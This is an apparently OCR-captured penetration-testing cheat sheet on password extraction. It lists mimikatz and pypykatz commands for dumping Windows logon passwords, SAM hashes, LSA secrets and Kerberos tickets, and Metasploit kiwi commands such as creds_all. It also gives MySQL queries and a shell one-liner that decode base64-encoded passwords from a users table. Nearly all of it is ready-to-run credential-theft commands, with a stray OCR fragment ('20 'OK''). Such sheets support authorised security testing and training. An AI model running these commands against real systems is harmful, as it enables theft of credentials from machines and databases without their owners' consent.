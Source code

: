 # Password Extraction

### mimikatz/pypykatz

Need to match architecture

```bash
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"

pypykatz lsa minidump filename.DMP
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

### Base64 decode

```
#inside mysql 
SELECT username, CONVERT(FROM_BASE64(password), CHAR) FROM users;
SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) FROM users; # 2x encoded

echo 'SOMETHING123==' | base64 -d
```
